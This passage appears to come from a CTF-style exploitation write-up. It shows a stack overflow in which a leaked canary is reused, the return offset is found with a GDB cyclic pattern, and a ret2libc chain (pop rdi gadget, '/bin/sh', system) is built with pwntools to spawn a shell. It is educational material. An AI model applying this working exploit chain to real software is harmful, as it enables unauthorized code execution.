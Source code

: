Now, let's send a really long string there and also attach GDB to this process.&#x20;

<pre class="language-python"><code class="lang-python"><strong>gdb.attach(p) # somewhere on top	
</strong><strong>	buffer = b'A' * 24
</strong>	buffer += p64(canary)
	pattern = b'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
	buffer += pattern
	p.sendline(buffer)
	pause()
</code></pre>

When `gdb` pops up, just press `c` to continue the execution. Afterwards, our script will send our string pattern and it will be reflected in the stack values from `gdb`:

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Taking the first 8 characters, we can find the offset:

```
gdb-peda$ pattern offset ABAA$AAn
ABAA$AAn found at offset: 8
```

So we need 8 more rubbish characters. Now, we need to find 3 last things before crafting the rest of the exploit:

1. `pop rdi; ret` gadget
2. `system` function from `libc`
3. `/bin/sh` string from `libc`.

```
$ ROPgadget --binary libc6_2.27-3ubuntu1.2_amd64.so | grep "pop rdi ; ret" 
0x000000000002155f : pop rdi ; ret

$ strings -a -t x libc6_2.27-3ubuntu1.2_amd64.so| grep "/bin/sh"
 1b40fa /bin/sh
 
$ readelf -s libc6_2.27-3ubuntu1.2_amd64.so| grep system  
  1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

Great! Now, using this we can easily create our exploit chain.&#x20;

<pre class="language-python"><code class="lang-python"><strong>buffer = b'A' * 24
</strong>buffer += p64(canary)
buffer += b'A' * 8
buffer += p64(pop_rdi)
buffer += p64(binsh)
buffer += p64(system)
p.send(buffer)
p.interactive()
</code></pre>
